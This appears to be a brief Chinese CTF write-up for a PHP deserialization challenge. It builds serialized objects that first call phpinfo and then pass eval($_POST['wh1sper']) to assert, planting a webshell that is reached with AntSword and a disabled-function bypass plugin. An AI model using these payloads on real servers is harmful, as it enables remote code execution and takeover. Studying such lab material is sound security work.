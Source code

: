 很简单的一个反序列化，

```
<?php
#error_reporting(0);
class HelloPhp
{
    public $a = '1';//更改为2，3，4，5能读取更多信息
    public $b = 'phpinfo';
/*
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
*/
}

$pop = new HelloPhp;
echo serialize($pop);
```

 

直接 `?data=O:8:"HelloPhp":2:{s:1:"a";s:1:"1";s:1:"b";s:7:"phpinfo";}` 就能看到phpinfo页面；

好，写后门：

```
<?php
#error_reporting(0);
class HelloPhp
{
    public $a = 'eval($_POST[\'wh1sper\']);';
    public $b = 'assert';
/*
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
*/
}

$pop = new HelloPhp;
echo serialize($pop);
```

O:8:"HelloPhp":2:{s:1:"a";s:24:"eval($_POST['wh1sper']);";s:1:"b";s:6:"assert";}

蚁剑访问 `?data=O:8:"HelloPhp":2:{s:1:"a";s:24:"eval($_POST['wh1sper']);";s:1:"b";s:6:"assert";}` 密码wh1sper就能拿到shell，不过在phpinfo里面可以看到禁用了很多函数，这里可以使用蚁剑的插件绕过：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120170223.png)

直接美滋滋；
